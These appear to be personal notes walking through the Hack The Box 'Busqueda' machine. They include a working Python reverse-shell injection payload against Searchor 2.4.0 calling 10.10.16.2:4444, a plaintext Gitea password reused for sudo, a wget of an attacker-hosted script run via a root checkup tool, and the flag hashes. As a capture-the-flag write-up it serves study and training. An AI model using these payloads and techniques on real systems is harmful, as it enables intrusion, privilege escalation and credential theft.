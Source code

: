 nmap indicates that port 80 is open

after adding to /etc/hosts file we have this:

![](20230517200314.png)

injection attack maybe?

it says that it uses searchor 2.4.0

https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-


```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.2',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

got a shell

![](20230517205841.png)

https://github.com/carlospolop/PEASS-ng/releases/download/20230514-85dabdc9/linpeas.shhttps://github.com/carlospolop/PEASS-ng/releases/download/20230514-85dabdc9/linpeas.sh

69d74a3bcb733e6212dd32f6857e02d7

$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
$ 

logged into the domain gitea.searcher.htb

![](20230517213922.png)

password reuse is popular: jh1usoih2bkjaspwe92

```
$ sudo -l
sudo -l
[sudo] password for svc: jh1usoih2bkjaspwe92

Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

```

$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 2 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 2 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

```
svc@busqueda:/opt/scripts$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```


```
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
[=] Docker conteainers
{
  "/gitea": "running"
}
{
  "/mysql_db": "running"
}

[=] Docker port mappings
{
  "22/tcp": [
    {
      "HostIp": "127.0.0.1",
      "HostPort": "222"
    }
  ],
  "3000/tcp": [
    {
      "HostIp": "127.0.0.1",
      "HostPort": "3000"
    }
  ]
}

[=] Apache webhosts
[+] searcher.htb is up
[+] gitea.searcher.htb is up

[=] PM2 processes
┌─────┬────────┬─────────────┬─────────┬─────────┬──────────┬────────┬──────┬───────────┬──────────┬──────────┬──────────┬──────────┐
│ id  │ name   │ namespace   │ version │ mode    │ pid      │ uptime │ ↺    │ status    │ cpu      │ mem      │ user     │ watching │
├─────┼────────┼─────────────┼─────────┼─────────┼──────────┼────────┼──────┼───────────┼──────────┼──────────┼──────────┼──────────┤
│ 0   │ app    │ default     │ N/A     │ fork    │ 1645     │ 11h    │ 0    │ online    │ 0%       │ 29.6mb   │ svc      │ disabled │
└─────┴────────┴─────────────┴─────────┴─────────┴──────────┴────────┴──────┴───────────┴──────────┴──────────┴──────────┴──────────┘

[+] Done!
```
```

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py ./full-checkup.sh`

```
svc@busqueda:~/folder$ wget http://10.10.16.47:8000/full-checkup.sh
--2023-07-24 11:58:00--  http://10.10.16.47:8000/full-checkup.sh
Connecting to 10.10.16.47:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 64 [text/x-sh]
Saving to: ‘full-checkup.sh’

full-checkup.s 100%      64  --.-KB/s    in 0s          

2023-07-24 11:58:02 (5.94 MB/s) - ‘full-checkup.sh’ saved [64/64]

svc@busqueda:~/folder$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
svc@busqueda:~/folder$ ls -al
total 12
drwxrwxr-x 2 svc svc 4096 Jul 24 11:58 .
drwxr-x--- 7 svc svc 4096 Jul 24 11:45 ..
-rw-rw-r-- 1 svc svc   64 Jul 24 11:57 full-checkup.sh
svc@busqueda:~/folder$ chmod +x full_checkup.sh
chmod: cannot access 'full_checkup.sh': No such file or directory
svc@busqueda:~/folder$ chmod +x full-checkup.sh
svc@busqueda:~/folder$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```


```
──(kali㉿kali)-[~/codeplay/oscp]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.16.47] from searcher.htb [10.10.11.208] 41246
# cat /root/root.txt
3ddb5506c2ca27ef1f2a6b89fb69c195
```
# learning

1. read information specific to the box
2. check your user, user.txt is in the home directory
3. look at git config
4. password reuse




